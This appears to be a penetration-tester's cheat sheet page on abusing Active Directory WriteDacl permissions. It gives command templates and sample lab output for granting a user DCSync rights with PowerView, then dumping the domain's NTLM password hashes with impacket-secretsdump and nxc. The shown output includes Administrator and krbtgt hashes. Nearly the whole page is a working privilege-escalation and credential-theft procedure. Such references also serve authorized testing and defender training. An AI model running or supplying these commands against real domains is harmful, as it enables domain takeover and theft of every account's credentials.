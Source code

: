 ```yaml
---
title: "WriteDacl"
date: 2024-7-12
tags: ["Writedacl", "Dcsync", "Powerview", "Credential Dumping", "Active Directory", "Windows"]
---
```


### Abuse #1: Add dcsync right to user

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}
{{< tab set1-1 tab1 active >}}powerview.py{{< /tab >}}
{{< tabcontent set1-1 tab1 >}}

#### 1. Connect to DC

```console
# With password
powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console
# With hash
powerview '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -H <HASH>
```

```console {class="sample-code"}
$ powerview 'CORP.LOCAL/WEB01$@172.16.1.5' -H 7ddf32e17a6ac5ce04a8ecbf782ca509
(LDAP)-[DC01.corp.local]-[CORP\WEB01$]
PV > 
```

#### 2. Add dcsync right

```console
Add-DomainObjectAcl -PrincipalIdentity '<USER>' -TargetIdentity '<TARGET_IDENTITY>' -Rights DCSync
```

```console {class="sample-code"}
(LDAP)-[DC01.corp.local]-[CORP\WEB01$]
PV > Add-DomainObjectAcl -PrincipalIdentity 'WEB01$' -TargetIdentity 'DC=corp,DC=local' -Rights DCSync
[2024-10-01 12:51:36] [Add-DomainObjectACL] Found target identity: DC=corp,DC=local
[2024-10-01 12:51:36] [Add-DomainObjectACL] Found principal identity: CN=WEB01,OU=Web Servers,OU=Servers,OU=Corp,DC=corp,DC=local
[2024-10-01 12:51:36] DACL modified successfully!
```

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add dcsync right

```console
Add-DomainObjectAcl -PrincipalIdentity '<USER>' -TargetIdentity '<TARGET_IDENTITY>' -Rights DCSync -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync -Credential $Cred
```

{{< /tabcontent >}}

#### Secrets dump

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

```console {class="sample-code"}
$ impacket-secretsdump 'svc-alfresco:s3rvice@10.10.10.161'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...[SNIP]...
[*] Cleaning up...
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
nxc smb <TARGET> -d <DOMAIN> -u '<USER>' -H <HASH> --ntds
```

```console {class="sample-code"}
$ nxc smb 172.16.1.5 -d CORP.LOCAL -u 'WEB01$' -H 7ddf32e17a6ac5ce04a8ecbf782ca509 --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         172.16.1.5      445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:True)
SMB         172.16.1.5      445    DC01             [+] CORP.LOCAL\WEB01$:7ddf32e17a6ac5ce04a8ecbf782ca509
SMB         172.16.1.5      445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         172.16.1.5      445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.1.5      445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:ac2b5f88fc33b7b9e0682be85784ec0d:::
...[SNIP]...
```

{{< /tabcontent >}}